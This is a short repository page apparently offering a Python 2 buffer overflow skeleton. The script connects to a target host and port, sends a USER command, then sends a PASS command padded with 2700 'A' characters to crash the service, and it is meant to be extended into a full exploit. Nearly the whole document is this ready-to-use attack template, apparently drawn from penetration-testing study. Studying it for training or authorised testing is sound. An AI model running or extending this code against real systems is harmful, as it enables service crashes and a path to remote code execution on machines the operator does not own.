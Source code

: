 # BOF_SKELETON.PY

Basic buffer overflow skeleton to build on once a crash is detected

Make sure to change <IP> and <PORT>

```python
import socket

rhost="<IP>"
rport=<PORT>
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

buffer = 'A' * 2700



try:
        print "\nSending evil buffer..."
        s.connect((rhost,rport))
        print repr(s.recv(1024))
        
        s.send('USER test'+'\r\n')
        print repr(s.recv(1024))
        s.send('PASS '+ buffer +'\r\n')
        
        print "\nDone."
        s.close()
except Exception, e:
        print("Exception: %s" % e)
```